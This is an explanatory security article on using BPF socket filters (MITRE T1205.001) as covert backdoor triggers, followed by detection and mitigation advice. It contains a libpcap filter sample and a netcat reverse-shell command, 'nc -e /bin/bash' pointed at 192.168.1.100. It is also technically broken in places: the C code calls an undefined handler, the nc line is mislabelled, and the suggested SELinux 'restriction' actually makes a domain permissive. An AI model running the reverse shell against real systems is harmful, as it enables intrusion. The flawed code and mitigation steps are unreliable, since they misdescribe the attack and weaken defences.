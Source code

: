 ```yaml
---
title: Traffic Signaling:- Socket Filters in C2
category: Persistence
tags: [Traffic Signaling (T1205.001)]
---
```


Socket filters provide a mechanism at the kernel level for filtering, managing, and controlling network traffic. By using these filters, network administrators, security software, and even adversaries can craft controlled network communication pathways by selectively allowing or blocking traffic based on specific criteria.

Socket filters operate by attaching filters—typically using the **Berkeley Packet Filter (BPF)**—to network sockets. This enables the system to inspect, modify, and selectively process data packets as they flow through. With this setup, socket filters can analyze packet headers, payloads, and metadata, enabling decisions based on factors like IP addresses, port numbers, and protocols.

## Socket Filters for Backdoor Activation
#### **Initial Compromise and Filter Setup**

Once an adversary compromises a system, they may seek to maintain persistence through a covert backdoor or C&C channel. To do this, they can attach a custom socket filter to the network interface using tools like **libpcap** or **Winpcap** (Windows), or by directly using **setsockopt** with the **SO_ATTACH_FILTER** option. This socket filter allows the adversary to selectively monitor and intercept network traffic to and from the compromised system.

***Example:*** an adversary may install a filter on **eth0** (the primary network interface) to monitor TCP traffic on a specific port (e.g. 9999), which they’ll later use to communicate with a reverse shell or to send commands.


    #include <pcap.h>
    #include <stdio.h>
    
    int main() {
        char errbuf[PCAP_ERRBUF_SIZE];
        pcap_t *handle;
    
        // Open the device for packet capture
        handle = pcap_open_live("eth0", BUFSIZ, 1, 1000, errbuf);
        if (handle == NULL) {
            fprintf(stderr, "Error opening device: %s\n", errbuf);
            return 1;
        }
    
        // Set the packet filter to capture only TCP traffic on port 9999
        struct bpf_program fp;
        char filter_exp[] = "tcp port 9999";  // Custom filter for reverse shell traffic
        if (pcap_compile(handle, &fp, filter_exp, 0, PCAP_NETMASK_UNKNOWN) == -1) {
            fprintf(stderr, "Error compiling filter\n");
            return 1;
        }
    
        if (pcap_setfilter(handle, &fp) == -1) {
            fprintf(stderr, "Error setting filter\n");
            return 1;
        }
    
        // Start capturing packets
        pcap_loop(handle, 0, packet_handler, NULL);
    
        pcap_close(handle);
        return 0;
    }

This code uses **libpcap** to set a filter that monitors for TCP packets on port 9999. The adversary could tailor the filter to match specific conditions, ensuring that only traffic related to their backdoor is processed. Once the filter is set, no immediate actions will be visible, which makes detection harder.

#### **2. Sending Crafted Packets to Trigger Reverse Shell**

Once the filter is active, the adversary can send a specially crafted packet to the compromised system that matches the filter criteria (i.e., TCP traffic on port 9999). This packet would not just match the filter but also trigger a **reverse shell** or **command invocation** based on the filter's configured actions.

For instance, using **netcat** or another tool, the attacker may initiate a reverse shell connection through the specified port:

***Attacker's machine sends a reverse shell connection to port 9999 on the target***
`nc -e /bin/bash 192.168.1.100 9999` 

This command establishes a reverse shell to the attacker's machine, and since the filter is set to listen on port 9999, it will trigger the reverse shell activation when the packet is received.

#### **3. Triggering Command Shell or Implant Installation**

In this example, the filter could be used to trigger additional actions, such as:

-   **Installing a backdoor** or **implant** on the system.
-   **Command and control (C&C)**: Using the reverse shell to send further commands, enabling remote manipulation of the system.

The filter could be crafted to not just passively monitor traffic but to activate certain system features when certain types of packets are detected. This makes the attack highly stealthy, as there is minimal traffic to attract attention, and the filter's actions are only triggered under specific conditions.

#### **4. Evasion and Low Detection Risk**

Since the socket filter is designed to operate with minimal system overhead, its activity is difficult to detect. It is typically lightweight and does not involve complex processes that could raise suspicion. Additionally, because the socket connection is not activated until the filter receives a matching packet, there is limited activity on the host, making it hard to identify the attack.

The lack of visible network activity and the use of low-overhead socket operations mean that traditional network monitoring tools or IDS systems that rely on frequent traffic inspection may fail to detect the exfiltration or reverse shell activation.

### **Detection and Mitigation Techniques**

#### **A. Monitoring and Auditing Network Interfaces**

To detect the use of socket filters for covert backdoor activations, network administrators can monitor for suspicious BPF programs or unusual socket activity. Tools like **bpftool** can list active BPF programs attached to network interfaces, which can help identify abnormal or unauthorized filters.


**Check for BPF programs attached to network interfaces**
`sudo bpftool prog show` 

This can identify any filters that have been installed on the system, such as those attached to port 9999 for reverse shell activation.

#### **B. Inspecting Network Traffic**

Adversary-driven packet filters often utilize hidden or non-standard ports for command and control. By analyzing network traffic for deviations from normal patterns—such as traffic on uncommon ports or with unusual packet characteristics—defenders can identify potential exfiltration or C&C activity.

For example, using **tcpdump** to capture traffic on port 9999 can help detect attempts to trigger backdoors or implants.


***Capturing traffic on port 9999***
`sudo tcpdump -i eth0 port 9999`

#### **C. Kernel Auditing and System Integrity Checks**

Monitoring the integrity of the system kernel can help detect unauthorized filter installation. Using kernel auditing tools like **auditd** and monitoring for the loading of suspicious BPF programs or network-related system calls can provide early warning signs of an attack.

#### **D. Restricting Socket Filter Usage**

Restricting access to the ability to attach socket filters can help prevent adversaries from deploying them. Using system hardening techniques, such as configuring **SELinux** or **AppArmor**, can limit access to the relevant system calls or BPF functionalities.

***SELinux policy to restrict BPF program usage***

`semanage permissive -a bpfilter_t` 

#### **E. EDR**

Advanced EDR tools can help detect unusual processes and activities associated with backdoor activation, such as the sudden spawning of reverse shells or unusual socket connections. By correlating event logs and monitoring for anomalous behavior, defenders can identify and respond to attacks more effectively.

### **Conclusion**

The use of socket filters for covert backdoor activation and command and control is a powerful evasion technique used by adversaries. By exploiting ***libpcap*** or ***Winpcap***, attackers can create custom filters that monitor specific traffic and trigger malicious actions, such as reverse shells or implant installations, when certain criteria are met. Defenders must be vigilant in monitoring network interfaces, analyzing traffic patterns, and implementing security measures to detect and mitigate such attacks before they can cause damage.


